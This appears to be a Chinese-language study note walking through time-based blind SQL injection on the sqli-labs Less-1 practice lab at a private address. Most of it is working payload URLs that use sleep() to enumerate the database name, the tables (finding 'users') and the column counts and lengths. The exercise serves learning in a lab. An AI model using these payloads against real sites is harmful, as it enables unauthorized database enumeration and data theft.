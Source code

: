 - 获取``数据库名长度``-->8

```
http://192.168.77.131/master/Less-1/?id=1'and if(length(database())=8,sleep(5),0) --+ 
```

- 获取``数据库名字``-->security

```sql
//获取数据库名字if(ascii(substring((select database()),1,1))=115,sleep(5),0)
//database(),1,1 第一个``1``表示从数据库名称的第一个字符开始,第二个``1``表示要截取的字符长度为1，即只获取第一个字符

http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substring((select database()),1,1))=115,sleep(5),0)--+
```

![image-20240821100550904](学习/笔记/assets/image-20240821100550904.png)

- 获取该``数据库中表的数目``-->4

```sql
http://192.168.77.131/master/Less-1/?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(5),0)--+
```

- 获取第四张表的``表名长度``-->5

```sql
http://192.168.77.131/master/Less-1/?id=1' AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 3,1) = 5, SLEEP(5), 0) --+
```

- 获取第四张表的``表名``(构造payload爆破)

```sql
http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))=101,sleep(5),0) --+
```

![image-20240821125906232](学习/笔记/assets/image-20240821125906232.png)

![image-20240821130001706](学习/笔记/assets/image-20240821130001706.png)

- 依次为:117 115 101 114 115 即:``users``

- 这里就写详细些,把字段名也爆破出来

```sql
//users表的字段数-->3 也即是说在users表中有三个字段
http://192.168.77.131/master/Less-1/?id=1'and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3,sleep(5),0) --+
```

- 获取``字段数``

```sql
//第一个字段长度为2
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2,sleep(5),0) --+
```
